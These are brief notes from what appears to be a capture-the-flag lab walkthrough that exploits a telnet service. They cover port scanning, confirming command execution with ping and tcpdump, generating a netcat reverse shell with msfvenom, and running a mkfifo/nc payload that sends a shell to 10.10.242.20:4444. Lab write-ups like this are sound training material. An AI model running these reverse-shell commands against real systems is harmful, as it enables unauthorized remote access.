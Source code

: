 ```bash
telnet <IP> <port>
```

for all ports
```bash
nmap -p- <ip>
```

`tcpdump` listener
```bash
sudo tcpdump ip proto \\icmp -i tun0
```

inside telnet
sent 1 ping message
```
.RUN ping <my-local-ip> -c 1
```

using msfvenom to generating reverse shell
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local-tun0-ip] lport=4444 R
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.242.20 lport=4444 R
```

payload example
```bash
mkfifo /tmp/koquey; nc 10.10.242.20 4444 0%3C/tmp/koquey | /bin/sh %3E/tmp/koquey 2>&1; rm /tmp/koquey
```

listen to port
```bash
nc -lvp 4444
```

execute the payload
```
.RUN mkfifo /tmp/koquey; nc 10.10.242.20 4444 0%3C/tmp/koquey | /bin/sh %3E/tmp/koquey 2>&1; rm /tmp/koquey
```


